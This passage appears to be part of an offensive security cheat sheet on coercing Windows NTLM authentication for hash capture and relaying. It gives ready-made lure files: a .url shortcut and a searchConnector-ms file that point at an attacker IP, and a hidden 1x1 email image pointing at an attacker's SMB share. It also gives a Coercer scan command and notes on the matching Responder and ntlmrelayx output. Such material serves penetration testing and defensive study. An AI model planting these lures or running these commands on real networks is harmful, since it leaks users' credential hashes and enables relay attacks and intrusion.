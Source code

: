 #### URL file
- Explorer automaticly connects if folder where the SearchConnector is, is opened.
- Filename ```something.url```
- Creates a ```[SMB] NTLMv2-SSP Hash``` in responder, ```[*] SMBD-Thread-x:``` in ntlmrelayx. Can be used against relaying to SMB.
```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\<IP>\%USERNAME%.icon
IconIndex=1
```

#### SearchConnector
- Explorer automaticly connects if folder where the SearchConnector is, is opened.
- Actives the Windows Webclient service which can be used to authenticate a host again to the attacking IP with petitpotam.
- Creates a ```[WebDAV] NTLMv2 Hash``` in responder, ```HTTPD: received``` in ntlmrelayx. Can be used against relaying to ldap, ldaps and SMB
- https://www.bussink.net/webclient_activation/
- Filename ```Documents.searchConnector-ms```
```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>//<ATTACKER IP>@80/test.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>//<ATTACKER IP>@80/test</url>
    </simpleLocation>
</searchConnectorDescription>
```

#### 1x1 image in Emails
```
<img src="\\<IP>\test.ico" height="1" width="1" />
```

#### For other filetypes check out the tools listed

## Coercing
- https://github.com/p0dalirius/Coercer

#### Check which coercer methods are available
```
python3 Coercer.py scan -t <TARGET IP> -u <USER> -p <PASSWORD> -d <DOMAIN>
```
